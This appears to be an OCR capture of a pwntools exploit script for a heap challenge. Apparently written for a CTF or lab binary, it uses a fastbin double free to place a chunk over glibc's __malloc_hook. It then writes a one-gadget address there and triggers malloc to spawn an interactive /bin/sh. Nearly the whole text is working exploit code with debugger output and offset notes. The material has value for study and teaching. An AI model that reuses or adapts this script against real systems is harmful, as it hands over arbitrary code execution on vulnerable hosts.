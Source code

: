 ```python
> 
"""

idx = 0
A = malloc(0x68, b'A'*0x28) # 0
B = malloc(0x68, b'B'*0x28) # 1

free(A) # free chunk A
free(B) # Intermediate free to bypass double free check
free(A) # double free chunk A

"""
fastbins
0x30: 0x603000 —▸ 0x603030 ◂— 0x603000
        A      ->   B      ->  A
"""

malloc_hook_addr = libc.symbols['__malloc_hook']
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh\x00'))

log.info(f"__malloc_hook: {hex(malloc_hook_addr)}")
log.info(f"system: {hex(system_addr)}")
log.info(f"/bin/sh: {hex(binsh_addr)}")

fake_malloc_addr = malloc_hook_addr - 35
malloc(0x68, p64(fake_malloc_addr)) # 2 -> 0x603000


# Now we need to find the offset to fill after which we can write our 0xdeadbeef address
# We will start filling from our fake chunk till we overwrite __malloc_hook

"""
pwndbg> dq 0x7ffff7bb4b2d
00007ffff7bb4b2d     fff7bb0ee0000000 000000000000007f
00007ffff7bb4b3d     fff7883a10000000 fff7883ed000007f
00007ffff7bb4b4d     000000000000007f 0000000000000000
00007ffff7bb4b5d     0000000000000000 0000000001000000
pwndbg> p &__malloc_hook
$1 = (void *(**)(size_t, const void *)) 0x7ffff7bb4b50 <__malloc_hook>
pwndbg> p/x 0x7ffff7bb4b50-0x7ffff7bb4b3d 
$2 = 0x13

"""

malloc(0x68,b'C'*8) # 3 -> 0x603030 (B)
malloc(0x68,b'D'*8) # 4 -> 0x603000 (A)
# malloc(0x68, b'A'*0x13 + p64(0xdeadbeef)) # 0x7ffff7bb6e20 (__malloc_hook) -> 0xdeadbeef

system_addr = libc.address + 0xe1fa1
malloc(0x68, b'A'*0x13 + p64(system_addr)) # 0x7ffff7bb6e20 (__malloc_hook) -> system

# Next malloc call will call -> 0xe1fa1 execve("/bin/sh", rsp+0x50, environ)
# malloc(0x68, b'')
io.recvuntil(b'> ')
io.sendline(b'1')
io.recvuntil(b'size: ')
io.sendline(b'')

io.interactive()

```
